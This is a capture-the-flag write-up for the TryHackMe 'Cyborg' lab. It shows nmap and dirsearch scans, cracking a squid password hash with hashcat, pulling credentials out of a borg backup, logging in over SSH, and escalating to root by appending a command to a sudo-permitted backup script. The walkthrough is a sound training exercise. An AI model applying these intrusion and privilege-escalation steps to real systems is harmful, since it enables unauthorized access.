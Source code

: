 # THM | Cyborg

A box involving encrypted archives, source code analysis and more.

![image-20210125203617103](Untitled.assets/image-20210125203617103.png)

------
[Room link](https://tryhackme.com/room/cyborgt8)



### Namp scan :

```sh
└──╼ $nmap -vv -A 10.10.222.225
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-25 17:20 +01
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
Initiating Ping Scan at 17:20
Scanning 10.10.222.225 [2 ports]
Completed Ping Scan at 17:20, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:20
Completed Parallel DNS resolution of 1 host. at 17:20, 0.07s elapsed
Initiating Connect Scan at 17:20
Scanning 10.10.222.225 [1000 ports]
Discovered open port 80/tcp on 10.10.222.225
Discovered open port 22/tcp on 10.10.222.225
Completed Connect Scan at 17:20, 18.36s elapsed (1000 total ports)
Initiating Service scan at 17:20
Scanning 2 services on 10.10.222.225
Completed Service scan at 17:20, 6.57s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.222.225.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:21, 8.70s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 1.07s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
Nmap scan report for 10.10.222.225
Host is up, received syn-ack (0.24s latency).
Scanned at 2021-01-25 17:20:29 +01 for 35s
Not shown: 995 closed ports
Reason: 995 conn-refused
PORT      STATE    SERVICE   REASON      VERSION
22/tcp    open     ssh       syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLmojJ45opVBHg89gyhjnTTwgEf8lVKKbUfVwmfqYP9gU3fWZD05rB/4p/qSoPbsGWvDUlSTUYMDcxNqaADH/nk58URDIiFMEM6dTiMa0grcKC5u4NRxOCtZGHTrZfiYLQKQkBsbmjbb5qpcuhYo/tzhVXsrr592Uph4iiUx8zhgfYhqgtehMG+UhzQRjnOBQ6GZmI4NyLQtHq7jSeu7ykqS9KEdkgwbBlGnDrC7ke1I9352lBb7jlsL/amXt2uiRrBgsmz2AuF+ylGha97t6JkueMYHih4Pgn4X0WnwrcUOrY7q9bxB1jQx6laHrExPbz+7/Na9huvDkLFkr5Soh
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB5OB3VYSlOPJbOwXHV/je/alwaaJ8qljr3iLnKKGkwC4+PtH7IhMCAC3vim719GDimVEEGdQPbxUF6eH2QZb20=
|   256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlr5id6IfMeWb2ZC+LelPmOMm9S8ugHG2TtZ5HpFuZQ
80/tcp    open     http      syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
1500/tcp  filtered vlsi-lm   no-response
3006/tcp  filtered deslogind no-response
16016/tcp filtered unknown   no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.51 seconds
```

1. Scan the machine, how many ports are open?                            

​	response : 2

2. What service is running on port 22?

​	response : ssh

3. What service is running on port 80?

​	response : http

### Dirsearch :

```sh
└──╼ $dirsearch -u 10.10.222.225 -e *

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: GET | Threads: 20 | Wordlist size: 7140

Error Log: /home/itatshi/Desktop/tools/dirsearch/logs/errors-21-01-25_17-20-59.log

Target: http://10.10.222.225/

Output File: /home/itatshi/Desktop/tools/dirsearch/reports/10.10.222.225/_21-01-25_17-21-00.txt

[17:21:00] Starting: 
[17:21:08] 403 -  278B  - /.htaccess.bak1
[17:21:08] 403 -  278B  - /.htaccess.orig
[17:21:08] 403 -  278B  - /.htaccess.save
[17:21:08] 403 -  278B  - /.htaccess.sample
[17:21:08] 403 -  278B  - /.htaccessBAK
[17:21:09] 403 -  278B  - /.html
[17:21:09] 403 -  278B  - /.htm
[17:21:09] 403 -  278B  - /.htaccessOLD
[17:21:09] 403 -  278B  - /.htaccessOLD2
[17:21:09] 403 -  278B  - /.httr-oauth
[17:21:32] 301 -  314B  - /admin  ->  http://10.10.222.225/admin/
[17:21:33] 200 -    6KB - /admin/
[17:21:33] 200 -    6KB - /admin/?/login
[17:21:33] 403 -  278B  - /admin/.htaccess
[17:21:35] 200 -    6KB - /admin/index.html
[17:21:59] 301 -  312B  - /etc  ->  http://10.10.222.225/etc/
[17:22:06] 200 -   11KB - /index.html
[17:22:29] 403 -  278B  - /server-status
[17:22:29] 403 -  278B  - /server-status/
```

Browse to <machine-ip>/etc/ . you'll see :

![image-20210125205337915](Untitled.assets/image-20210125205337915.png)

go to squid/passwd .

create a file hash.txt and past the passwd hash inside it . then crack it using hashcat or john .

```sh
└──╼ $cat hash.txt 
$apr1$BpZ.Q.1m$F0****************QTTn.
└──╼ $hashcat -m 1600 hash.txt /opt/seclists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-8250U CPU @ 1.60GHz, 5708/5772 MB (2048 MB allocatable), 8MCU

```

we will need that password later .

Browse to http://10.10.175.120/admin/ 

![image-20210125204342279](Untitled.assets/image-20210125204342279.png)

go to Archive>>Download and download the tar file .

extract it and browse it 

after reading the README file , you'll know that you have to install borg .

#### Install borg 

```sh
wget https://github.com/borgbackup/borg/releases/download/1.1.15/borg-linux64
sudo cp borg-linux64 /usr/local/bin/borg
sudo chown root:root /usr/local/bin/borg
sudo chmod 755 /usr/local/bin/borg
```

let's now extract the archive_music using borg .

```sh
└──╼ $borg list final_archive/
Enter passphrase for key /home/itatshi/Desktop/THM/cyborg/final_archive: 
music_archive                        Tue, 2020-12-29 15:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
┌─[✗]─[itatshi@parrot]─[~/Desktop/THM/cyborg]
└──╼ $borg extract ./final_archive::music_archive
Enter passphrase for key /home/itatshi/Desktop/THM/cyborg/final_archive: 

```

we successfully extract it . let's go to home/alex/Documents

```sh
┌─[itatshi@parrot]─[~/Desktop/THM/cyborg/home/alex/Documents]
└──╼ $cat note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3******3

```

we found alex password . let's ssh it now :

```sh
└──╼ $ssh alex@<machine-ip>
alex@10.10.175.120's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


27 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

alex@ubuntu:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
alex@ubuntu:~$ cat user.txt 

```

Boom , we got the user flag .

let's get the root flag now .

### Privilege Escalation :

```sh
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
alex@ubuntu:~$ id
uid=1000(alex) gid=1000(alex) groups=1000(alex),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

```

we can run /etc/mp3backups/backup.sh as root :

let's use it to get the root flag .

```sh
cd /etc/mp3backups
chmod 777 backup.sh
echo "cat /root/root.txt > backed_up_files.txt" >> backup.sh
sudo ./backup.sh

```

let's now read the flag .

```sh
alex@ubuntu:/etc/mp3backups$ cat backed_up_files.txt 
flag{Th**************************053d}
alex@ubuntu:/etc/mp3backups$ 
```

Great , we found the root flag .

![image-20210125203205943](Untitled.assets/image-20210125203205943.png)

Happy Hacking.
